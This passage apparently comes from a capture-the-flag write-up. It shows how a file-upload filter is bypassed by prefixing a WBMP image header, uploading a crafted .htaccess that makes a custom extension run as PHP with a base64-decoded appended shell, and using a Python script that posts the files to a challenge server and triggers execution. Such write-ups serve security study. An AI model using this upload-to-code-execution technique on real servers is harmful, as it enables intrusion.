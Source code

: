 {% code-tabs %}
{% code-tabs-item title="poc.py" %}
```text
out = chr(0x00) + chr(0x00) + chr(0x8a) + chr(0x39) + chr(0x80) + chr(0x8a) + chr(0x39) + chr(0x00)
print out
out += '''your htaccess'''
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Checkpoint 5 : PHP

It was checking if "&lt;?" is in the uploaded file, so we need encode the shell in base64

{% code-tabs %}
{% code-tabs-item title=".htaccess" %}
```text
AddType application/x-httpd-php .corb3nik php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"Upload shell
```
{% endcode-tabs-item %}
{% endcode-tabs %}

&lt;3 Credits go all to Corb3nik

{% code-tabs %}
{% code-tabs-item title="up\_shell.py" %}
```python
#!/usr/bin/env python3

import requests
import base64

VALID_WBMP = b"\x00\x00\x8a\x39\x8a\x39\x00\x00\x00\x00\x00\x0a\x0a"
URL = "http://35.246.234.136/"
RANDOM_DIRECTORY = "cd64786e8e27882608c3520dd83a27babbcdbb08"

COOKIES = {
    "PHPSESSID" : ""
}

def upload_content(name, content):

    data = {
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .corb3nik
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"<?php echo works; ?>")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.corb3nik", TARGET_FILE)
upload_content("trigger.corb3nik", VALID_WBMP)

response = requests.get(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.corb3nik")
print(response.text)
```
{% endcode-tabs-item %}
{% endcode-tabs %}
